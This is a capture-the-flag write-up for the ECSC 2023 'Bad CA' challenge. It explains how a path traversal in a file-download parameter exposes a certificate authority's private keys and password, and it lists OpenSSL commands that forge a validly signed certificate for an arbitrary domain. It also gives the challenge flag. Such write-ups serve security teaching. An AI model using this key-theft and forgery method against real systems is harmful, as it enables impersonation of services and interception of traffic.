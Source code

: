 # Bad CA

> The corporate has set up their new fancy CA with ACME protocol. We use it to automatically issue certificates for all our internal services. Moreover, every employee was requested to install our new cool Root CA certificate.
>
> `https://bad-ca.ecsc23.hack.cert.pl/`
>
> It's just running for a few months and we have noticed that something extremely strange is going on. Somebody has obtained the correct certificate for example.com o_O. Just look:
>
> ```
> -----BEGIN CERTIFICATE-----
> MIICvzCCAmagAwIBAgIQQl2WzzfbdH4l/ORkR1pFIDAKBggqhkjOPQQDAjBKMRsw
> GQYDVQQKExJFQ1NDMjAyMyBDb3Jwb3JhdGUxKzApBgNVBAMTIkVDU0MyMDIzIENv
> cnBvcmF0ZSBJbnRlcm1lZGlhdGUgQ0EwHhcNMjMwNTIxMTcwMzU4WhcNMjMwNTIy
> MTcwNDU4WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAx7l+eraX
> 9pa46w+GdaLkWG9s50DKnC9+TbFHNuRGbLEJ01piEKcXJMd7qjtiLn8Luwn1A2q+
> C9rjzZnkElnTUG7lb+2XIKCpuEBpR9C1ikHRwTeYiBm7GYBFKbI3roTIZHi6K3hc
> TnLNOi1WIOYXyXHQd4CVey3W7AVb78JogC0ybl+WRAEoDEiEGJ2DFKB8uif2NBZb
> F4xGLSznUQIsb095XMwSLNLim2CCE/8Xci4Ae1J44iCd9Ce6q8JMfblUHC/qFjnx
> I7JRr6cLc4756NkMyVUIyx6OtMqGbR8QwNIbyaophE8vv5JRati9f47egKc1Nwud
> KvwD22jHaed4ywIDAQABo4GsMIGpMA4GA1UdDwEB/wQEAwIFoDAdBgNVHSUEFjAU
> BggrBgEFBQcDAQYIKwYBBQUHAwIwHQYDVR0OBBYEFDP0YcYTWi4lkIkexHGRmpeq
> +I+FMB8GA1UdIwQYMBaAFEyFcN3kt89/sm7b38UQaL3ry1jlMBkGA1UdEQEB/wQP
> MA2CC2V4YW1wbGUuY29tMB0GDCsGAQQBgqRkxihAAQQNMAsCAQYEBGFjbWUEADAK
> BggqhkjOPQQDAgNHADBEAiAZgKVVx7+AhpUezE2Frjs76pJ8ndUAQ5ZdxpLl6OUh
> oAIgOboWrx5IqP4YlQo39eSgWMOcfoK51j56cjmL2ZKmEyo=
> -----END CERTIFICATE-----
> ```
>
> This certificate is indeed correctly signed by our intermediate CA :(. Which is even worse, it's that we have checked the CA software logs and this issuance is indeed there! It seems like somebody has just started the http-01 challenge for example.com and it went through succesfully.
>
> Now I'm seriously confused. Could you try to get another certificate for <your_nickname>.example.com and paste it to the "Certificate Checker"? It's going to let me know automatically.

## LFI on the website
The website contains a redirect to `https://bad-ca.ecsc23.hack.cert.pl/send_file?path=certs` from where `root_ca.crt` and `intermediate_ca.crt` can be downloaded. However, `path` parameter is susceptible to LFI attack and can be used to list files with paths relative to web app's working directory. Eventually, path `../step/secrets` containing certificates' keys and password (`intermediate_ca_key`, `root_ca_key`, `password`) can be found.

## Creating and signing the certificate
Given the keys and password with which they are protected, it's possible to easily forge a signed certificate with any domain using OpenSSL. First, create `domain.ext` file with the following contents to set X509v3 Subject Alternative Name field:
```
subjectAltName = @alt_names

[alt_names]
DNS.1 = lodsb.example.com
```
Then:
```
$ openssl genrsa -out lodsb.example.com.key 2048
$ openssl req -new -sha256 -key lodsb.example.com.key -subj "/C=PL/ST=MP/O=FooBar, Inc./CN=lodsb.example.com" -out lodsb.example.com.csr
$ openssl x509 -req -in lodsb.example.com.csr -CA intermediate_ca.crt -CAkey intermediate_ca_key -CAcreateserial -out lodsb.example.com.crt -days 1337 -sha256 -extfile domain.ext
Certificate request self-signature ok
subject=C = PL, ST = MP, O = "FooBar, Inc.", CN = lodsb.example.com
Enter pass phrase for intermediate_ca_key:
$
```
Finally, copy contents of `lodsb.example.com.crt` into the checker on the website to reveal the flag.

## Flag
`ecsc23{this_dns_validation_doesnt_seem_about_right}`

## Footnote
_"Only sure things in life are death, taxes, and unintended solutions."_